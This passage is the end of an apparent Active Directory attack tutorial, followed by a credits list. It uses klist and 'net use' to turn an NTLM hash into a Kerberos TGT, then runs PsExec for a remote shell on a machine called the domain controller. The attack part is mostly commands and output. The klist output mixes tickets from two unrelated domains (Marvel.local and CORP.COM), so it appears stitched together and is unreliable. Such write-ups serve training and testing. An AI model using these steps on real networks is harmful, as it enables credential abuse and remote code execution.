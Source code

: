 ```
PS C:\Windows\system32> klist
Current LogonId is 0:0x1583ae
Cached Tickets: (0)
PS C:\Windows\system32> net use \\SPIDERMAN
The command completed successfully.
PS C:\Windows\system32> klist
Current LogonId is 0:0x1583ae
Cached Tickets: (3)
#0> Client: fcastle @ Marvel.local
Server: krbtgt/Marvel.local @ Marvel.local
KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canoni
Start Time: 2/12/2018 13:59:40 (local)
End Time: 2/12/2018 23:59:40 (local)
Renew Time: 2/19/2018 13:59:40 (local)
Session Key Type: AES-256-CTS-HMAC-SHA1-96
Cache Flags: 0x2 -> DELEGATION
Kdc Called: DC01.corp.com
#1> Client: jeff_admin @ CORP.COM
Server: krbtgt/CORP.COM @ CORP.COM
KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonica
```

We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM) such as the official PsExec can run a command remotely but does not accept password hashes. Since we have generated Kerberos tickets and operate in the context of fcastle in the PowerShell session, we may reuse the TGT to obtain code execution on the domain controller. Let's try that now, running ./PsExec.exe to launch cmd.exe remotely on the \\THEPHUNISHER machine as fcastle:

```c
PS C:\Tools\active_directory> .\PsExec.exe \\THEPHUNISHER cmd.exe
PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
C:\Windows\system32> whoami
marvel\fcastle
```

## **Credits**

As we went through this serias we used many resources to help us create our serias. Thanks a lot ot all of these resources for helping me creating this.

[adsecurity.org](https://adsecurity.org/)

[Redforce -- Always Stay Ahead!](https://blog.redforce.io/)

[TryHackMe](https://tryhackme.com/room/attackingkerberos)

[Kerberos authentication](https://docs.axway.com/bundle/APIGateway_762_IntegrationKerberos_allOS_en_HTML5/page/Content/KerberosIntegration/kerberos_overview.htm)

[@dewni.matheesha](https://medium.com/@dewni.matheesha/kerberos-the-computer-network-authentication-protocol-a198309339b7)

[Destination Certification](https://www.youtube.com/watch?v=5N242XcKAsM)